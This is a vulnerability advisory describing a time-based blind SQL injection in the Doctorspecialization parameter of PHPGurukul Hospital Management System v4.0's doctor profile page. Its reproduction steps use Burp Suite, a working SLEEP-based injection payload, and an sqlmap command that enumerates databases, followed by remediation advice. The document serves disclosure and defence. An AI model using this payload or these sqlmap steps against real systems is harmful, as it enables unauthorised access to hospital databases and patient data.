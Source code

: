 
# Time-Based Blind SQL Injection Vulnerability Report

## Affected Product

| **Attribute**         | **Details**                                                                 |
|-----------------------|-----------------------------------------------------------------------------|
| **Product Name**      | Hospital Management System                                                  |
| **Vendor**            | PHPGurukul                                                                  |
| **Version**           | v4.0                                                                        |
| **Affected File**     | `hospital/hms/doctor/edit-profile.php`                                              |
| **Affected Parameter**| `Doctorspecialization`                                                                  |
| **Method**            | `POST`                                                                      |
| **Vulnerability Type**| Time-Based Blind SQL Injection                                              |

## Official Website

[PHPGurukul Hospital Management System v4.0](https://phpgurukul.com/hospital-management-system-in-php/)

## Vulnerability Overview

A time-based blind SQL injection vulnerability exists in the `Doctorspecialization` parameter  of **Hospital Management System v4.0**, allowing remote attackers to execute arbitrary SQL commands by triggering time delays in the database response.

## Steps to Reproduce

### 1. Access the Vulnerable URL

- Enable Burp Suite and configure your browser to route traffic through it.
- Visit the doctor Login page, which redirects to `index.php`.
- Fill in the email and password fields and autheticate. Then navigate to edit-profile.php fill any data you wish turn on interceprt. 

```
http://192.168.137.89/hospital/hms/doctor/index.php
```

![Login Page](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/1.png)

![Login Page](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/2.png)

---

### 2. Intercept the Request

- Send the intercepted request to **Repeater** in Burp Suite.
- Add an asterisk `*` to the `Doctorspecialization` field to identify injection points.
- Save the modified HTTP request as `sql` for SQLMap.

![Burp Repeater Modification](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/3.png)

![Burp Repeater Modification](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/4.png)


---

### 3. Manual Exploitation (Not Recommended)

- Use the following payload in the `Doctorspecialization` field to test time-based SQL injection manually:

```sql
Doctorspecialization=ENT' AND (SELECT 5721 FROM (SELECT(SLEEP(5)))lDqQ) AND 'HSVc'='HSVc&docname=&clinicaddress=&docfees=300&doccontact=123456789&docemail=doctor@email.com&submit=
```

> ⚠️ Manual testing of time-based injections is slow and prone to error. It's recommended to use **SQLMap** for automated exploitation and enumeration.

---

### 4. Automated Exploitation Using SQLMap

To list the databases via SQLMap:

- Open Kali Linux terminal and run:

```bash
sqlmap -r sql --dbs
```

- This command uses the `sql` request file (`-r` flag) and attempts to enumerate databases using the `--dbs` flag.

![SQLMap Database Enumeration](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/5.png)

![SQLMap Database Enumeration](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/6.png)

![SQLMap Database Enumeration](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/7.png)

---

## Remediation

1. **Use Prepared Statements (Parameterized Queries):**  
   Avoid dynamic SQL queries that directly concatenate user input.

2. **Input Validation & Sanitization:**  
   Implement strong input validation and reject inputs containing SQL metacharacters.

3. **Least Privilege Principle:**  
   Ensure the database account used by the application has only the minimum required privileges.

4. **Web Application Firewall (WAF):**  
   Deploy a WAF to detect and block malicious SQL queries.

5. **Error Handling:**  
   Suppress detailed database errors from user-facing interfaces.

---

## References

- OWASP Top 10 - [A03: Injection](https://owasp.org/Top10/A03_2021-Injection/)
- [SQLMap Tool](https://sqlmap.org)
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

---

## Disclosure Timeline

| Date       | Activity                             |
|------------|--------------------------------------|
| 2025-06-08 | Vulnerability Identified via SQLMap  |

---

## Author

**Report generated by:** `Subhash Paudel`  
**Tool Used:** SQLMap  
